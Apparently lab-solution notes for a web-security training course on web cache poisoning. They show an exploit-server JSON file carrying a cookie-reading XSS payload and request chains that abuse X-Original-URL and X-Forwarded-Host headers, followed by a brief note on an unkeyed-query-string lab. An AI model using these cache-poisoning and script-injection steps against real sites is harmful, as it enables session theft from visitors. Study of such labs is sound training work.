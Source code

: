 If we choose the language, the value will add lang cookie.

`Cookie: session=gImZNUEhoU9aIQQRhG0K4MF5sdgbcK33; lang=es`

**Exploit Server ->**

```
File:
	/resources/json/translations.json
Head:
	Access-Control-Allow-Origin: *
Body:
    {
        "en": {
            "name": "English"
        },
        "es": {
            "name": "español",
            "translations": {
                "Return to list": "Volver a la lista",
                "View details": "</a><img src=1 onerror='alert(document.cookie)'  />",
                "Description:": "Descripción:"
            }
        }
    }
```

**Solution chain:**

```
GET /setlang/es/ HTTP/1.1
...
X-Original-URL: /setlang\es

GET /?localized=1 HTTP/1.1
...
X-Forwarded-Host: exploit-ac711f901e4b183bc0052db20125002b.web-security-academy.net

GET / HTTP/1.1
...
X-Forwarded-Host: exploit-ac711f901e4b183bc0052db20125002b.web-security-academy.net
```

### Lab: Web cache poisoning via an unkeyed query string

This lab is vulnerable to web cache poisoning because the query string is unkeyed. A user regularly visits this site's home page using Chrome.

To solve the lab, poison the home page with a response that executes alert(1) in the victim's browser.

`GET /?cb=1234 HTTP/1.1` - Not working.

GET / HTTP/1.1 -> Burp Extension -> Param Miner -> Guess params -> Guess headers

Issue Activity -> Web cache poisoning -> **Origin** header
